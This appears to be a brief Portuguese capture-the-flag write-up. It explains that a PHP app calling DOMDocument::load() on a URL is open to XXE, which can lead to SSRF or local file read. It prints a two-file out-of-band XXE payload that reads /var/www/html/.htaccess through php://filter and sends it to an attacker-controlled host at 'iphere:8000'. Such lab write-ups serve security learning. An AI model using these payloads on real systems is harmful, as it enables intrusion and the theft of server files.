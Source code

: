 
<img src="images/Pasted image 20230822154210.png">

Na imagem é utilizado a classe DOMDocument, por meio dela é possível fazer chamadas com a função load() que renderiza xml ao passar uma url como argumento.

Nesse contexto, torna-se evidente a possibilidade de exploração de XXE para SSRF ou Local File read.

Para explorar, o conteudo de xml.xml é

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://iphere:8000/xpl.dtd"> %ext;
%ext;
]>
<r></r>
```

E o conteudo de xpl.dtd é

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/.htaccess">
<!ENTITY % payload "<!ENTITY &#37; xpl SYSTEM 'http://iphere:8000/?leak=%data;'">
%payload;
%xpl;
```

O qual usa o php para ler o arquivo `/var/www/html/.htaccess` , que contém a flag.
